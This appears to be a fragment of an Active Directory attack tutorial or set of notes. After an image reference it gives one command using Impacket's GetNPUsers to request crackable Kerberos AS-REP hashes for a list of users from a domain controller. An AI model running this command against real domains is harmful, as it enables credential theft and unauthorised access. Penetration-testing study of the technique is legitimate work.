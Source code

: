 We can run the below command for this attack 

Impacket-GetNPUsers "DomainName"/ -userfile "users.txt" -dc-ip "IP address" - request -format john 

